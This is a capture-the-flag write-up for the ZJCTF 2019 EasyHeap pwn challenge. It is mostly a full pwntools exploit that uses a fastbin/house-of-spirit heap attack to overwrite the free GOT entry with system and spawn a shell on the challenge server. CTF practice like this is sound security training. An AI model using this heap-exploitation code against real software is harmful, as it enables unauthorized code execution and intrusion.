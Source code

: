 




## [ZJCTF 2019]EasyHeap

文件和Hitcon Lab 14一样，但buu的环境里/home/ctf是空的，改用house of spirit

```python
from pwn import *
p = process("./easyheap")
p = remote("node4.buuoj.cn",28283)
context.log_level = "debug"
elf = ELF("./easyheap")

def create(size,content):
	p.sendlineafter("choice :","1")
	p.sendlineafter("Size of Heap : ",str(size))
	p.sendlineafter("Content of heap:",content)

def edit(id,size,content):
	p.sendlineafter("choice :","2")
	p.sendlineafter("Index",str(id))
	p.sendlineafter("Heap : ",str(size))
	p.sendafter("heap : ",content)

def delete(id):
	p.sendlineafter("choice :","3")
	p.sendlineafter("Index :",str(id))



def back():
	p.sendline("4869")

bss = 0x6020e8

create(0x60,"aaa")	#0
create(0x60,"bbbb")	#1
create(0x60,"cccc")	#2
delete(2)

payload1 = b'/bin/sh\x00' + "a"*0x58 + p64(0) + p64(0x71) + p64(0x6020a0-3)
edit(1,len(payload1),payload1)

create(0x60,"aaaa")

create(0x60,"9")
payload2 = p64(9)*6 + "\x00"*3 + p64(elf.got['free'])
edit(3,len(payload2),payload2)


edit(0,8,p64(elf.plt['system']))
delete(1)

p.interactive()


```
